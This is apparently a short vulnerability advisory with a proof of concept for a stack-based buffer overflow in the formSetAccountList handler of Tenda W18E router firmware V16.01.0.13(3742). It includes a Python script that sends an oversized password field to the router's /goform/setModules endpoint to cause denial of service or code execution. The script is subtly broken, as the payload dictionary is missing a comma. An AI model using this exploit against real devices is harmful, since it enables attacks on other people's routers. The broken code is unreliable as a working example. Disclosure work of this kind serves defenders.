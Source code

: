 # Tenda W18E formSetAccountList
### Overview
vendor: Tenda

product: W18E

version: V16.01.0.13(3742) and before

type: Stack Overflow
### Vulnerability Description
Tenda W18E V16.01.0.13(3742) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/w18e-3-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
